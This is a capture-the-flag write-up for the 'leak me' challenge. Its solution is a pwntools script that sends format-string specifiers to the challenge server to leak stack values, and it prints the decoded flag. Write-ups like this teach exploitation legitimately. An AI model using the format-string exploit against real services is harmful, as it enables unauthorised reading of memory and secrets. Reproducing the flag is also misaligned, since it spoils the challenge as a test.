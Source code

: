 ```yaml
---
description: Im hiding something in my memory , can u figure out how to see it ?
---
```


# leak me

`nc tcp.espark.tn 6050`

> Author: 4n7h4r4x

### Files

* main.c

\
**Description:** Format string vulnerability to leak flag from stack.

**Solution:** The flag is stored as a local variable on the stack. We can leak it using format string specifiers:

```python
from pwn import *

host = "tcp.espark.tn"
port = 6050

# Leak stack positions 6-10 which contain the flag
for i in range(6, 11):
    conn = remote(host, port)
    conn.recvuntil(b"format strings\n")
    
    payload = f"%{i}$p.".encode()
    conn.send(payload)
    
    response = conn.recvall(timeout=1).decode()
    print(f"Position {i}: {response}")
    conn.close()

# Hex values at positions 6-10:
hex_values = [
    0x30667b6b72617053,  # Spark{f0
    0x7274735f37346d72,  # rm47_str
    0x3372345f35676e31,  # 1ng5_4r3
    0x676e317a346d345f,  # _4m4z1ng
    0x7d,                 # }
]

# Decode little-endian
flag = ""
for val in hex_values:
    bytes_val = []
    temp = val
    while temp > 0:
        bytes_val.append(chr(temp & 0xFF))
        temp >>= 8
    flag += ''.join(bytes_val)

print(flag)  # Spark{f0rm47_str1ng5_4r3_4m4z1ng}
```

***
